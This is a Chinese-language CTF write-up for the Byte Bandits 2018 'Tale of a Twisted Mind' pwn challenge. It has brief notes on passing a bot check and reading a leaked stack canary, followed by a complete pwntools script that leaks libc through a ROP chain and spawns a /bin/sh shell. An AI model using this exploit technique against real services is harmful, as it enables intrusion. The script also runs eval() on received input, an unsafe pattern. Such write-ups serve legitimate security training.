






# Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

* https://github.com/phieulang1993/ctf-writeups/blob/master/2018/bytebandit/twisted/twisted_local.py
* https://github.com/st424204/ctf_practice/blob/master/Byte_Bandits_CTF/twisted/twisted.py
* http://www.wooy0ung.me/writeup/2018/04/10/bytebanditsctf-2018-writeup/

# Title

[//]: <> (题目)

Tale of a Twisted Mind

We all know how intelligent Layat is... He says that since everyone knows how gcc programs are protected, he set out to protect them by his own secret way.

But Alas! Even the compiler asked "Art Though Dumb?"

nc 34.218.199.37 6000

# Content

[//]: <> (WriteUp内容)

首先需要绕过bot detected



只是一个简单计算，但要重复312次



还要绕过canary




看下程序流程，似乎没有info leak漏洞



再看看远程，似乎有点不同



远程的程序是patched过的，直接把canary给我们了,猜测是把该处patched成dword_804AA28



```python
from pwn import *

context.log_level = "debug"

#r = remote("34.218.199.37", 6000)
s = process("./twisted_patched", env={"LD_PRELOAD":"./libc.so.6"})
elf = ELF("./twisted_patched")
libc = ELF("./libc.so.6")

def debug(addr):
    raw_input('debug:')
    gdb.attach(s, "b *" + addr)

for i in xrange(312):
	question = s.recvuntil("\n").split("=")[0]
	answer  = eval(question)
	print question, answer
	s.sendline(str(answer))

puts_plt = elf.plt["puts"]
printf_got = elf.got["printf"]
fgets_buff = 0x08048979
bss = 0x804aa58

system_off = libc.symbols["system"]
printf_off = libc.symbols["printf"]
binsh_off = libc.search("/bin/sh").next()

s.recvuntil("Bot Verification Complete!\n")
canary = u32(s.recv(4))
log.info('canary: %#x' % canary)

s.recv(1)
s.send("1")
p = "A"*0x10
p += p32(canary)
p += p32(bss)
p += p32(puts_plt)
p += p32(fgets_buff)
p += p32(printf_got)

s.sendline(p)
printf_addr = u32(s.recv(4))

libc_base = printf_addr - printf_off
system_addr = system_off + libc_base
binsh_addr = binsh_off + libc_base

p = "A"*0x10
p += p32(canary)
p += p32(bss)
p += p32(system_addr)
p += p32(fgets_buff)
p += p32(binsh_addr)

s.sendline(p)
s.interactive()
```